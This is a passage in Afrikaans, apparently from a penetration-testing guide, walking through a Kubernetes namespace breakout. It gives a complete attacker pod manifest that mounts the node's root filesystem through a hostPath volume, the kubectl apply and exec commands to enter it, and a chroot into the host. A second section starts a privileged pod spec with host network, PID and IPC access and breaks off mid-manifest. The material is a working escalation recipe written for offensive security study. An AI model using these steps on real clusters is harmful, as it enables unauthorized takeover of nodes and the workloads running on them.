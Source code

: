 Dan skep jy jou attack.yaml-lêer
```yaml
apiVersion: v1
kind: Pod
metadata:
labels:
run: attacker-pod
name: attacker-pod
namespace: default
spec:
volumes:
- name: host-fs
hostPath:
path: /
containers:
- image: ubuntu
imagePullPolicy: Always
name: attacker-pod
command: ["/bin/sh", "-c", "sleep infinity"]
volumeMounts:
- name: host-fs
mountPath: /root
restartPolicy: Never
# nodeName and nodeSelector enable one of them when you need to create pod on the specific node
#nodeName: master
#nodeSelector:
#  kubernetes.io/hostname: master
# or using
#  node-role.kubernetes.io/master: ""
```
[original yaml source](https://gist.github.com/abhisek/1909452a8ab9b8383a2e94f95ab0ccba)

Daarna skep jy die pod
```bash
kubectl apply -f attacker.yaml [-n <namespace>]
```
Nou kan jy na die geskepte pod oorgaan soos volg
```bash
kubectl exec -it attacker-pod [-n <namespace>] -- sh # attacker-pod is the name defined in the yaml file
```
En uiteindelik chroot jy in die node se stelsel
```bash
chroot /root /bin/bash
```
Inligting verkry uit: [Kubernetes Namespace Breakout using Insecure Host Path Volume — Part 1](https://blog.appsecco.com/kubernetes-namespace-breakout-using-insecure-host-path-volume-part-1-b382f2a6e216) [Attacking and Defending Kubernetes: Bust-A-Kube – Episode 1](https://www.inguardians.com/attacking-and-defending-kubernetes-bust-a-kube-episode-1/)

### Skep 'n bevoorregte pod

Die ooreenstemmende yaml-lêer is soos volg:
```yaml
apiVersion: v1
kind: Pod
metadata:
name: everything-allowed-exec-pod
labels:
app: pentest
spec:
hostNetwork: true
hostPID: true
hostIPC: true
containers:
- name: everything-allowed-pod
```